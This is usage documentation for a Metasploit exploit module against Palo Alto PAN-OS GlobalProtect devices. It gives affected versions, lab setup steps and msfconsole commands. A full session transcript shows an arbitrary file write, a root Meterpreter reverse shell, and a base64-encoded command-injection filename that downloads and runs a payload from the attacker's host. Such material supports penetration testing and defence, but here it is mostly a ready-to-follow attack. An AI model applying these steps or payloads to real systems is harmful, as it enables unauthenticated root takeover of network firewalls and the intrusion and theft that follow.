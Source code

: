 ## Vulnerable Application
This module exploits two vulnerabilities in Palo Alto Networks PAN-OS that
allow an unauthenticated attacker to create arbitrarily named files and execute
shell commands. Configuration requirements are PAN-OS with GlobalProtect Gateway or
GlobalProtect Portal enabled and telemetry collection on (default). Affected versions
include < 11.1.0-h3, < 11.1.1-h1, < 11.1.2-h3, < 11.0.2-h4, < 11.0.3-h10, < 11.0.4-h1,
< 10.2.5-h6, < 10.2.6-h3, < 10.2.8-h3, and < 10.2.9-h1. Payloads may take up to
one hour to execute, depending on how often the telemetry service is set to run.

For a technical analysis of the vulnerability, read our [Rapid7 Analysis](https://attackerkb.com/topics/SSTk336Tmf/cve-2024-3400/rapid7-analysis).

## Testing
Boot a vulnerable PAN-OS VM or device, then authenticate to the management web service with default credentials. From the
web dashboard, configure a GlobalProtect [Portal](https://docs.paloaltonetworks.com/globalprotect/10-1/globalprotect-admin/globalprotect-portals/set-up-access-to-the-globalprotect-portal)
and/or [Gateway](https://docs.paloaltonetworks.com/globalprotect/10-1/globalprotect-admin/globalprotect-gateways/configure-a-globalprotect-gateway).
With either or both started, the `gpsvc` service will begin serving an HTTPS service on port 443 for the second
network interface. Confirm that the web service presents a Palo Alto Networks login page when viewed. This web application
is the target of the exploit, and the '/global-protect/login.esp' page should be accessible.

The exploit has been tested against PAN-OS 10.2.9, and it should also be effective against other vulnerable 10.2, 11.0,
and 11.1 versions.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_telemetry_cmd_exec`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set payload cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
6. `check`
7. `exploit`

## Scenarios

### Linux Command

Note: Ensure the target is vulnerable to unauthenticated file creation with the `check` command.

Note: Since it can take up to one hour to establish code execution, the listener should be left running for that period.

```
msf6 > use exploit/linux/http/panos_telemetry_cmd_exec
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > show options

Module options (exploit/linux/http/panos_telemetry_cmd_exec):

   Name       Current Setting            Required  Description
   ----       ---------------            --------  -----------
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443                        yes       The target port (TCP)
   SSL        true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /global-protect/login.esp  yes       An existing web application endpoint
   VHOST                                 no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      EkcxbboZMyD      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/panos_telemetry_cmd_exec) > set RHOSTS 192.168.50.226
RHOSTS => 192.168.50.226
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > set LHOST 192.168.50.25
LHOST => 192.168.50.25
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > set LPORT 8585
LPORT => 8585
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > check
[+] 192.168.50.226:443 - The target is vulnerable. Arbitrary file write succeeded: /var/appweb/sslvpndocs/global-protect/portal/fonts/glyphicons-ipteqmbl-regular.woff2 NOTE: This file will not be deleted
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.50.25:8585 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Arbitrary file write succeeded: /var/appweb/sslvpndocs/global-protect/portal/fonts/glyphicons-ikxrpbmq-regular.woff2 NOTE: This file will not be deleted
[*] Depending on the PAN-OS version, it may take the telemetry service up to one hour to execute the payload
[*] Though exploitation of the arbitrary file creation vulnerability succeeded, command injection will fail if the default telemetry service has been disabled
[*] Meterpreter session 1 opened (192.168.50.25:8585 -> 192.168.50.216:48310) at 2024-04-18 14:53:09 -0500
[!] This exploit may require manual cleanup of '/opt/panlogs/tmp/device_telemetry/minute/lyne`echo${IFS}-n${IFS}d2dldCAtcU8gL3Zhci90bXAvdWdWZlhXUnhWIGh0dHA6Ly8xOTIuMTY4LjUwLjI1OjgwODAvcUpPXzJ2MUFPVkRIc2hsVVIyRHVzQTsgY2htb2QgK3ggL3Zhci90bXAvdWdWZlhXUnhWOyAvdmFyL3RtcC91Z1ZmWFdSeFYgJg==|base64${IFS}-d|bash${IFS}-`' on the target

meterpreter > getuid 
Server username: root
meterpreter > sysinfo 
Computer     : 192.168.50.216
OS           : CentOS 8.3.2011 (Linux 4.18.0-240.1.1.20.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```